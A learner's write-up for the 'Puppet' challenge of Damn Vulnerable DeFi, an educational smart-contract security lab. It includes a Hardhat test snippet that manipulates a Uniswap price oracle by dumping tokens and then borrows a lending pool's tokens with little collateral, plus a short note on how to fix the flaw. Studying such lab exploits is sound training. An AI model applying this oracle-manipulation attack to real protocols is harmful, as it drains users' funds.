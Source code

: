 ![](cover.png)

**A set of challenges to learn offensive security of smart contracts in Ethereum.**

Featuring flash loans, price oracles, governance, NFTs, lending pools, smart contract wallets, timelocks, and more!

## Play

Visit [damnvulnerabledefi.xyz](https://damnvulnerabledefi.xyz)

## Help

For Q&A and troubleshooting running Damn Vulnerable DeFi, go [here](https://github.com/tinchoabbate/damn-vulnerable-defi/discussions/categories/support-q-a-troubleshooting).

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION.

## Comparison

command to run test -> npx hardhat test puppet.challenge.js About to use github linker and "@audit" tag to document stuff in .md file as mentioned here

---- before executing the code ------

I was unable to write report, because I dont have any clue how to write a good report.

** DO NOT READ FURTHER BELOW IF YOU HAVE NOT ALREADY TRIED SOLVING ** - highly recommended.

## Must know before solve :

in puppet.challenge.js there is a condition to be satisfied after the hack, which is not valid and not possible here in the solution to my code you will see I just did a glitch which is not really bipassing the conditon any ways you could also solve it as below :

```javascript
it("Execution", async function () {
  await token
    .connect(player)
    .approve(uniswapExchange.address, PLAYER_INITIAL_TOKEN_BALANCE);

  const data = await uniswapExchange
    .connect(player)
    .tokenToEthSwapInput(
      PLAYER_INITIAL_TOKEN_BALANCE,
      1,
      (await ethers.provider.getBlock("latest")).timestamp * 2
    );

  const tx = await lendingPool
    .connect(player)
    .borrow(POOL_INITIAL_TOKEN_BALANCE, player.address, {
      value: ethers.utils.parseEther("20"),
    });
});
```

## Solution :

same code as url

## Concepts Learned :

1. how uniswap exchange works.
2. approve is required before calling uniswap api.

## Hack & How to stop it

here the pool is dependent on uniswap for its rate calculation but here uniswap is and always will be exchangable means it can be modified, so solution would be to not rely on the uniswap if you are then borrowAmount has to be multiplied with balance of uniswap before dividing it with token amount.

## ERRORS I got :

![Alt text](image.png)

The above shown image is the ERROR I encounterd if anything goes wrong, when mutating "UNISWAP".

As you can already sense its very unclear to track the issue, because reverted without a reason string.

Below are the following things that gave me this error so I have listed them and also what to write instead of it to make the error go away.

![Alt text](image-1.png)

1. when trying to perform any kind of token/eth mutation, ** REMEMBER ** to approve "UNISWAP" to perform actions on behalf of you.

2. when giving the deadline argument, remember to give multiplied by 2 or more but not just current timestamp.

please refer the screenshot added above.
